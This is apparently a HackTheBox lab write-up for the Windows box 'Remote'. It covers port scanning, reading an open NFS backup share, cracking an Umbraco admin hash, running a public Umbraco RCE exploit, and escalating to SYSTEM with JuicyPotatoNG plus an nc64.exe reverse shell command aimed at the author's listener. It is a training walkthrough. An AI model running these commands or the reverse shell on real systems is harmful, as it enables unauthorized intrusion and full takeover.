

# HackTheBox
------------------------------------
### IP: 10.129.230.96
### Name: Remote
### Difficulty: Easy
--------------------------------------------


I'll begin enumerating this box by scanning all TCP ports with Nmap and use the `--min-rate 10000` flag to speed things up. I'll also use the `-sC` and `-sV` to use basic Nmap scripts and to enumerate versions:

```
┌──(ryan㉿kali)-[~/HTB/Remote]
└─$ sudo nmap -p- --min-rate 10000 -sC -sV 10.129.86.1         
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-06-26 08:58 CDT
Nmap scan report for 10.129.86.1
Host is up (0.083s latency).
Not shown: 65519 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-06-26T14:59:12
|_  start_date: N/A
|_clock-skew: 59m58s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.21 seconds
```

Looking at port 80 we find a site, mostly featuring lorem ipsum:


Kicking off some directory scanning we find several different endpoints:


Before really digging into HTML I want to explore RPC on port 111.

We can see there is a share called `/site_backups` using `showmount`

```
┌──(ryan㉿kali)-[~/HTB/Remote]
└─$ showmount -e 10.129.86.1
Export list for 10.129.86.1:
/site_backups (everyone)
```

I'm going to mount this in my `/tmp`:

```
┌──(ryan㉿kali)-[/tmp/remote]
└─$ sudo mount -t nfs 10.129.86.1:/site_backups /tmp/remote
```

We can then inspect the contents:


Looking through the files we find an Umbraco.sdf file.

We can run `strings` against it and find a few potential usernames:


Sifting through all the data returned from `strings`, we finally reach the top of the output and discover an admin sha1 hash:


Which we can crack using crackstation:


We can then login to the `/umbraco` page with `admin@htb.local:baconandcheese`



Clicking on the admin profile button we can see the version `Umbraco version 7.12.4`

Looking for exploits we find: https://github.com/noraj/Umbraco-RCE

### Exploitation

Giving the exploit a shot we can confirm execution:

```
┌──(ryan㉿kali)-[~/HTB/Remote]
└─$ python exploit.py -u admin@htb.local -p baconandcheese -i 'http://10.129.86.1' -c powershell.exe -a '-NoProfile -Command whoami'
iis apppool\defaultapppool
```

Lets now grab a base64 encoded powershell reverse shell and catch a callback to our listener:


We can now grab the user.txt flag:


### Privilege Escalation

Running `whoami /all` we see that SeImpersonatePrivilege is enabled:

```
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Lets copy over juicypotatoNG and nc64.exe to the target to exploit this.

Once we have our files in place we can set up a new listener and run:

```
PS C:\users\Public\Desktop> ./juicypotatong.exe -t * -p "C:\Windows\system32\cmd.exe" -a "/c C:\Users\Public\Desktop\nc64.exe 10.10.14.114 445 -e cmd"
```

We then catch a shell back in our listener as system:

```
┌──(ryan㉿kali)-[~/Tools/privesc]
└─$ nc -lnvp 445
listening on [any] 445 ...
connect to [10.10.14.114] from (UNKNOWN) [10.129.86.1] 49717
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>whoami
whoami
nt authority\system
```

And we can grab the final flag:


Thanks for following along!

-Ryan

---------------------------------------------------
